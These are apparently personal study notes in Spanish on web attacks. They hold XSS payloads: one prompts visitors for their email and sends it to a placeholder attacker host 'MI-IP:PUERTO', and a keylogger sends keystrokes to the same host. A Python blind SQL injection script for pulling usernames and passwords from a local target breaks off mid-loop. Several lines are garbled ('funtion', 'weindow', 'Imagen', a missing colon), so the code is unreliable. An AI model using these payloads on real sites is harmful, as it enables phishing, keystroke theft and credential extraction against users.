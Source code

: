 ![[Pasted image 20240208124843.png]]


![[Pasted image 20240208125612.png]]


![[Pasted image 20240208125442.png]]


### SQLI (XSS)

xss
```python
<script>alert("XSS")</script>
```
xss
```python
<script>
var email= prompt("introduce tu correo");

if (email==null || email == ""){
	alert("Es necesario introducir un correo valido para visualizar el post"); 
} else {
	fetch("http://MI-IP:PUERTO/?email=" + email);
}
</script>
```

xss keylogger
```python
<script>
	var k = "";
	document.onkeypress = funtion(e){
	e = e weindow.event;
	k += e.key
	var i = new Imagen();
	i.src = "http://MI-IP:PUERTO/" + k;
	}
</script>
```

```python
 #!/usr/bin/python3
import requests
import signal
import sys
import time
import string
from pwn import *

def def_handler(sig, frame):
	print("\n\n[!] Saliendo...\n")
	sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://localhost/searchUsers.php"
Characters = string.printable

def makeSQLI():

	p1 = log.progress("Fuerza bruta")
	p1.status("Iniciando progreso de fuerza bruta")

	time.sleep(2)

	p2 = log.progress("Datos extraidos")

	extracted_info = ""

	for position in range(1, 200)
		for character in range(33, 126):
			sqli_url = main_url + "?id=9 or (select(select ascii(substring((select group_concat(username,0x3a,password)from information_schema.schemata),%d,1))from users where id = 1)=%d)"
	
```